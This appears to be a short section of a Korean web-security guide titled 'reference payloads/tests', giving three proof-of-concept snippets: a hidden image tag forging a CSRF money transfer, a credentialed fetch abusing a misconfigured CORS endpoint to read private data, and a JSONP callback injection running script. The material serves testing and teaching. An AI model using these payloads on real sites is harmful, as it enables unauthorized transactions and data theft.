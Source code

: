 
# 6. 참고용 페이로드/테스트
- CSRF (HTML 삽입을 통한 요청 예)
```html
<img src="https://victim.example/send?to=attacker&amount=1000" style="display:none">
```
- CORS (취약한 서버에서 자격증명 포함 응답 허용 시)
```js
fetch('https://vulnerable.example/private', {credentials: 'include'})
  .then(r => r.text()).then(console.log)
```
- JSONP (취약 콜백명 삽입)
```html
<script src="https://api.example.com/user?callback=alert(1)"></script>
```


